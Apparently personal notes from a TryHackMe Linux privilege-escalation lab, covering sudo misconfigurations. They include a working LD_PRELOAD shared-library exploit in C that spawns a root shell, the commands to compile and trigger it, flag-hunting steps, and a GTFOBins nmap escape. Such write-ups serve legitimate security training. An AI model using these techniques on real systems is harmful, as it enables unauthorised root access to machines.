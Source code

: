 > `THM-28392872729920`

## Privilege Esvalation: Sudo

```bash
sudo -l
```

If `LD_PRELOAD` is available + application root privilege:

```c
/* shell.c */

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/home/user/ldpreload/shell.so <SUDO-APP>
```

| Title | IP Address |
| :---- | :---- |
| LinPrivEscSUDO | 10.10.66.29 |

```bash
sudo -l
```

> `(ALL) NOPASSWD: /usr/bin/find`

> `(ALL) NOPASSWD: /usr/bin/less`

> `(ALL) NOPASSWD: /usr/bin/nano`

```bash
find / -type f -name flag2.txt
```

> `/home/ubuntu/flag2.txt`

```bash
cat /home/ubuntu/flag2.txt
```

> `THM-402028394`

Using [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#sudo)

> `sudo nmap --interactive`
